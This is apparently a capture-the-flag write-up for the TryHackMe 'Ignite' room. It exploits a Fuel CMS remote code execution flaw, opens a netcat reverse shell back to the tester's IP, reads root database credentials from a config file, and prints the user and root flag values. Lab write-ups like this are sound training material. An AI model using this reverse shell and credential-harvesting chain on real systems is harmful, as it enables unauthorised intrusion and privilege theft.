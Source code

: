 # [Ignite](https://tryhackme.com/room/ignite)

`Machine's IP - 10.10.51.11`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.51.11 -Pn > nmap-ignite.log`

# Analyzing Information and Risks
The important thing that caught my eye was that only port 80 was accepting connections, so I decided to check that out. The first thing to point out was that it was the default page for a CMS (Content Management System) for a tool calld Fuel.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 19:33 Central Standard Time (Mexico)
Nmap scan report for 10.10.51.11
Host is up (0.25s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.39 seconds
```

With no current lead, I searched `fuel cms 1.4 exploit db` and came up with a Remote Code Execution vulnerability that allows [PHP Code Evaluation that can lead to Pre-Auth RCE](https://www.cvedetails.com/cve/CVE-2018-16763/), like I noticied. [ExploitDB code](https://www.exploit-db.com/exploits/47138). Downloading the script, I changed the following:

* url = "http://machine-ip/"
* URL = url+"/fuel/pa....
* r = requests.get(URL)

Upon doing that, I ran the script using `Python 2` and checked my initial privileges.

```
> python 47138.py
cmd:whoami
systemwww-data

<div style="bo" ..
```

With the response, I noticed that we could probably get a better foothold of the box with `Netcat`. So I started a listener: 

```
> nc -lvnp port
listening on [any] 4445 ...
```

Then I went to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and selected the command for different versions of netcat, just in case. I ran the command in the cmd prompt of the python file from earlier.

```
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.20.112 4445 >/tmp/f
```

Upon running the command, the netcat listener prompted with an incoming connection.

```
connect to [10.6.20.112] from (UNKNOWN) [10.10.51.11] 53996
/bin/sh: 0: can't access tty; job control turned off
$
```

With having an initial shell, I thought of elevating it to a normal bash shell using Python from the [NETSEC](https://netsec.ws/?p=337) list for spawning shell's. 

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

It gave me the following output:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

Finally, we can possibly start with something like [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but since we don't even have a user password or account than we probably can't even run scripts. Also, I decided that we are in an application directory, giving us the possibility of an user account credentials in a config folder or file. So I moved through  the directories and eventually found the `user.txt`:

```
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

Also, in the directory `/var/www/html/fuel/application/config` I came upon a `database.php` so I printed the contents of the file which gave me the following interesting information:

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```

With this, I changed my account `sudo -` and specified the password. Then, I went to the root directory which gave me the final `root.txt`

```
root@ubuntu:~# ls               
ls                              
root.txt                        
root@ubuntu:~# cat root.txt     
cat root.txt                    
b9bbcb33e11b80be759c4e844862482d
```

## License
[MIT](https://choosealicense.com/licenses/mit/)